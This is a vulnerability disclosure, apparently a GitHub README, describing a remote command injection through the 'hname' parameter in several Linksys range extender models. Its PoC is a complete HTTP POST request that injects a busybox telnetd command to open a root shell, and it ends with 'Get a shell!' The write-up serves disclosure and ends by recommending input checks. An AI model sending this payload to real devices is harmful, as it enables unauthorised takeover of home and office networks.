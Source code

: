 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `um_red`, `hname` is directly passed by the attacker, so we can control the `hname` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

`mod_form.so->internet.sh->um_red`

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `hname` as **`busybox telnetd -l /bin/sh -p 2234`** , and the router will excute it,such as:

```http
POST /goform/RP_setBasicAuto HTTP/1.1
Host: 192.168.2.26
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1271
Origin: http://192.168.2.26
Connection: close
Referer: http://192.168.2.26/wireless/wireless_basic.shtml
Cookie: session_id=DYhMeT5zL1zkUT74mwWXjf0QcW6Oo8y0
Upgrade-Insecure-Requests: 1

hname=`busybox telnetd -l /bin/sh -p 2234`&fname=Linksys+Range+Extender&cType=DHCP&staticIp=&staticNetmask=&staticGateway=&staticPriDns=&staticSecDns=&staticTrdDns=&TZ=CST_008&save_time=0&device_mode=2&ap_disable_2G=0&ap_mode_2G=9&ap_ssid_2G=pjqwudi&ap_encrypt_2G=AES&ap_AuthMode_2G=WPA2-PSK&ap_DefaultKeyID_2G=&ap_Key1Str1_2G=&ap_Key2Str1_2G=&ap_Key3Str1_2G=&ap_Key4Str1_2G=&ap_EncKey_2G=YWJjMTIzMTIz&ap_channel_2G=0&ap_ext_channel_2G=0&ap_channelWidth_2G=1&ssid_broadcast_AP_2G=2&needset_WscConfigured_2G=1&apcli_ssid_2G=&apcli_encrypt_2G=Not+Use&apcli_AuthMode_2G=NONE&apcli_DefaultKeyID_2G=&apcli_Key1Str1_2G=&apcli_Key2Str1_2G=&apcli_Key3Str1_2G=&apcli_Key4Str1_2G=&apcli_EncKey_2G=&apcli_channel_2G=0&apcli_channelWidth_2G=1&ap_disable_5G=0&ap_mode_5G=14&ap_ssid_5G=pjqwudi1&ap_encrypt_5G=AES&ap_AuthMode_5G=WPA2-PSK&ap_DefaultKeyID_5G=&ap_Key1Str1_5G=&ap_Key2Str1_5G=&ap_Key3Str1_5G=&ap_Key4Str1_5G=&ap_EncKey_5G=YWJjMTIzMTIz&ap_channel_5G=0&ap_ext_channel_5G=0&ap_channelWidth_5G=2&ssid_broadcast_AP_5G=2&needset_WscConfigured_5G=1&apcli_ssid_5G=&apcli_encrypt_5G=Not+Use&apcli_AuthMode_5G=NONE&apcli_DefaultKeyID_5G=&apcli_Key1Str1_5G=&apcli_Key2Str1_5G=&apcli_Key3Str1_5G=&apcli_Key4Str1_5G=&apcli_EncKey_5G=&apcli_channel_5G=0&apcli_channelWidth_5G=2&b64_pwd=1
```



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

